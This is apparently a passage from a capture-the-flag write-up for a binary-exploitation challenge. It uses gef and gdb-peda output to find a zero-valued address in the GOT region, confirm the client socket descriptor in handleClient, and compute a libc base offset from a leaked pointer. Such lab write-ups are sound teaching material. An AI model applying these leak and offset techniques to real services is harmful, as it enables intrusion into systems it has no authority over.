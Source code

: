 The 0 value we can get for example from this section at a static location: 
```
0x00000000403000 0x00000000404000 0x00000000002000 r-- /root/challenges/challenge17/challenge17
```

```
gef➤  x/32xg 0x00000000404000
0x404000:       0x0000000000403e20      0x00007f0429e70180
0x404010:       0x00007f0429e5a4c0      0x00007f0429ced5f0
0x404020 <write@got.plt>:       0x0000000000401046      0x00007f0429d84740
0x404030 <printf@got.plt>:      0x00007f0429ccdcf0      0x00007f0429d666b0
0x404040 <read@got.plt>:        0x0000000000401086      0x00007f0429cb2b60
0x404050 <listen@got.plt>:      0x00007f0429d75fa0      0x00007f0429d75e40
0x404060 <perror@got.plt>:      0x00000000004010c6      0x00007f0429d75da0
0x404070 <exit@got.plt>:        0x00000000004010e6      0x00007f0429d42470
0x404080 <socket@got.plt>:      0x00007f0429d76470      0x0000000000000000
0x404090:       0x0000000000000000      0x0000000000000000
```

So lets take the value `0x404090`.


## Client socket nr

The socket number in the argument for the function `handleClient`. Lets check it:
```
gdb-peda$ b *handleClient
Breakpoint 1 at 0x400b12
gdb-peda$ c
Continuing.
[New process 7643]
[Switching to process 7643]

 [----------------------------------registers-----------------------------------]
RAX: 0x4
RBX: 0x0
RCX: 0x7ffc0b70c840 --> 0x7ffc00000031
RDX: 0x0
RSI: 0x1
RDI: 0x4
```

First argument is in `RDI`, therefore the socket number is `4`.


## Recap

The libc pointer from the information leak is `0x7f7d39d37d0a`, while the libc address was `0x7f7d39d11000`.
Therefore, to get the base address from the pointer we need to calculate its offset: 

```
~/challenges/challenge17$ echo $(( 0x7f7d39d37d0a - 0x7f7d39d11000 ))
158986
```
